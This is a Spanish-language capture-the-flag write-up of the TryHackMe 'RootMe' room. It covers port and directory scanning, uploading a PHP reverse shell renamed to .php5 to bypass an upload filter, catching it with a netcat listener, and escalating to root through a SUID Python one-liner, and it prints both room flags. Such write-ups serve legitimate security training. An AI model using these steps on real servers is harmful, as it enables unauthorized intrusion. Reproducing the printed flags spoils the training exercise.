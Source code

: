 ```yaml
---
tags:
  - eJPT
Category: Try Hack Me
title: Room Rootme
comments: "true"
image: /assets/img/machines/Rootme/Rootmebanner.jpeg
---
```


## Introducción
En este writeup se describe el proceso completo de explotación de la máquina RootMe en TryHackMe. La enumeración inicial permitió identificar servicios expuestos, principalmente SSH y un servidor web Apache. A partir de la información recolectada, se descubrieron rutas y funcionalidades ocultas en la aplicación web que facilitaron la obtención de una shell con permisos limitados. Finalmente, mediante técnicas de escalación de privilegios, se logró acceso root en el sistema.

## Enumeración
Ejecutamos un escaneo de puertos específicos sobre los puertos 22 y 80. El objetivo era identificar servicios expuestos y obtener información relevante para continuar con la fase de enumeración, detectando servicios como SSH y HTTP:
```bash
❯ nmap -sCV -p 22,80 10.10.48.74
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-27 15:37 -04
Nmap scan report for 10.10.48.74
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.43 seconds
```

### Enumeración WEB
Al acceder a la página web que se encuentra en el puerto 80, se muestra una animación simple con el nombre de la máquina. No hay enlaces aparentes ni funcionalidades interactivas visibles a simple vista, por lo que se procedió a realizar una enumeración más profunda del sitio.
![1](/assets/img/machines/Rootme/1.jpeg)

Posteriormente, realicé una enumeración de directorios utilizando Gobuster, lo cual reveló varias rutas interesantes en el sitio:
```bash
❯ gobuster dir -u http://10.10.48.74 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.48.74
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.48.74/uploads/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.48.74/css/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.48.74/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.48.74/panel/]
```

De todas ellas, la ruta /panel llamó particularmente la atención por su posible relación con una interfaz administrativa o protegida, por lo que se decidió investigarla con mayor profundidad.

Al acceder a la ruta /panel, se mostró un panel de carga de archivos. Esta funcionalidad puede representar una potencial vulnerabilidad si no cuenta con filtros o validaciones adecuadas.

![2](/assets/img/machines/Rootme/2.jpeg)

Para intentar explotar el panel de carga, se descargó una reverse shell en PHP desde el repositorio público de Pentestmonkey:
```bash
❯ gitclone https://github.com/pentestmonkey/php-reverse-shell.git
```
Una vez descargado el script php-reverse-shell.php, se editó para configurar la dirección IP y puerto del atacante, permitiendo establecer una conexión inversa hacia el sistema desde la máquina víctima.

El archivo fue renombrado con la extensión .php5 para evadir posibles restricciones del filtro de extensiones en el panel de subida:
```bash
❯ mv php-reverse-shell.php php-reverse-shell.php5
```

Este tipo de técnica aprovecha que algunos servidores aún interpretan extensiones como .php5 como código PHP válido, permitiendo la ejecución del payload incluso si .php estuviera bloqueado.

![3](/assets/img/machines/Rootme/3.jpeg)

Tras subir el archivo al panel, accedí a la ruta /uploads, donde se listaban los archivos cargados. Ahí se encontraba el reverse shell con la extensión .php5, lo que confirmaba que la carga había sido exitosa y que el archivo era accesible públicamente desde el navegador.

![4](/assets/img/machines/Rootme/4.jpeg)

Antes de acceder al archivo subido, dejé mi equipo en escucha en el puerto 443 con nc para recibir la conexión reversa. Al ejecutar el archivo desde el navegador, obtuve acceso a una shell remota como el usuario www-data, con permisos limitados. Para mejorar la interacción, usé script /dev/null -c bash, lo que me permitió continuar con la enumeración y explotación desde una terminal más cómoda.

```bash
❯ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.182.113] from (UNKNOWN) [10.10.48.74] 58944
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:34 up 41 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@rootme:/$ 
```

### Captura flag user
A continuación, realicé una búsqueda por el sistema de archivos para localizar la primera flag. Encontré el archivo en /var/www/user.txt y al leer su contenido obtuve la flag de user: THM{y0u_g0t_a_sh3ll}.

```bash
www-data@rootme:/$ find / -type f -name user.txt 2> /dev/null
find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

### Captura flag root
Luego, escalé privilegios a root utilizando un shell con permisos elevados a través de Python. Posteriormente, busqué el archivo de la flag de root, ubicado en /root/root.txt. Al leer su contenido, obtuve la flag de root: THM{pr1v1l3g3_3sc4l4t10n}.

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

